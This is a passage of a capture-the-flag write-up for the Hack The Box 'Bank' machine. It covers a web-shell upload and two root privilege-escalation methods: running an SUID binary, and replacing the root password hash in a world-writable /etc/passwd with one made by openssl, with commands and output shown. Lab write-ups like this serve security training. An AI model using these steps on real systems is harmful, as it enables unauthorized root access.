 ```
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
this credentials can be used to access bank.htb.  
Now we can access the support page and, as we know, this page can be used to upload a shell and get code execution.
## Root
### Method 1 - SUID executable
Once we have the initial shell, we can run linpeas and see if there is any priversc vector.  
As we can see there is an executable with SUID bit set:
```
-rwsr-xr-x 1 root root 110K Jun 14  2017 /var/htb/bin/emergency (Unknown SUID binary)
```
If we try to run this we instantly have a shell as root
```
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
138a92b65e22405ef03b60b0bb3ab784
```

### Method 2 - World writable /etc/passwd
Once we have the initial shell, we can run linpeas and see if there is any priversc vector.  
As we can see linpeas notice us that /etc/passwd file is writable by anyone.  
```
 ╔══════════╣ Permissions in init, init.d, systemd, and                                    
═╣ Writable passwd file? ................ /etc/passwd is writable
```
so now we can create a new password, edit the file and login with the created password.  
To create the password we can use openssl:
```
www-data@bank:/var/www/bank/uploads$ openssl passwd lucab0dd
XQJM6fcLUQoak
```
Now we can place the generated password inside /etc/passwd
```
root:XQJM6fcLUQoak:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```
now we can login as root with password lucab0dd:
```
www-data@bank:/var/www/bank/uploads$ su root
Password:
root@bank:/var/www/bank/uploads#
```
